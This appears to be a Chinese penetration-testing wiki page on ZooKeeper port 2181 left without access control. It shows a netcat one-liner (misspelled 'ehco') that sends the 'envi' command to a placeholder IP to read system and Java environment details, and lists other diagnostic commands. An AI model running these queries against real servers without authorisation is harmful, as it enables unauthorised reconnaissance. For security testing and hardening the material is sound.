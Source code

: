 # Zookeeper 2181端口

## 关于

<a-checkbox checked>ZooKeeper是一个分布式的，开放源码的分布式应用程序协调服务，是Google的Chubby一个开源的实现，是Hadoop和Hbase的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括：配置维护、域名服务、分布式同步、组服务等。</a-checkbox></br>

<a-checkbox checked>ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境。</a-checkbox></br>

## 攻击方法

使用NC连接，并执行 envi 获取敏感信息

```bash
ehco envi | nc xxx.xxx.xxx.xxx 2181
```

![img](../../../.vuepress/public/img/1629282926633-640040a0-28a8-4488-89b3-0701a19dad61.png)

相关其他命令

```
stat：列出关于性能和连接的客户端的统计信息 
ruok：测试服务器是否运行在非错误状态。
reqs：列出未完成的请求
envi：打印有关服务环境的详细信息
dump：列出未完成的会话和临时节点
```

